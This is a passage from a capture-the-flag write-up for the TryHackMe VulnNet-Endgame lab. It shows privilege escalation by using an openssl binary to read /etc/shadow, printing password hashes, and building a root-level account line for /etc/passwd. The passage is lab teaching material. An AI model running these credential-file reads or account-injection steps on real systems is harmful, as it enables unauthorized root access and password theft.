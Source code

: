 **Let's test reading `/etc/shadow`:**
```
system@vulnnet-endgame:~/Utils$ ./openssl enc -in /etc/shadow
root:$6$cB/S/D17$1FhKwiSpNpdxPcWJ4q91KOsJzucvpeTr8v9CRPaNmDF5SF64BcTHwR1Bx4xP3RqxK52.uZ38MHH4rQxamADbI/:19157:0:99999:7:::
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
sync:*:18885:0:99999:7:::
games:*:18885:0:99999:7:::
man:*:18885:0:99999:7:::
[...]

system@vulnnet-endgame:~/Utils$ ls -lah /etc/shadow
-rw-r----- 1 root shadow 1.5K Jun 14 16:48 /etc/shadow
```

Wait, we can read `/etc/shadow`??

Hmm... If we can read `/etc/shadow`, then we might also can write things to `/etc/passwd`!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-Endgame/images/a24.png)

To gain root privilege, we can:

- Generate a password hash for `passwd`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# openssl passwd pwnedpassword
$1$.YB66nk1$8Gsn7z0GJMm8eH8D95k0K1
```

- Copy `/etc/passwd`, add a new user with root privilege:

```
system@vulnnet-endgame:~/Utils$ cp /etc/passwd /tmp/passwd.bak

system@vulnnet-endgame:~/Utils$ echo "pwned:\$1\$.YB66nk1\$8Gsn7z0GJMm8eH8D95k0K1:0:0:root:/root:/bin/bash" >> /tmp/passwd.bak
```
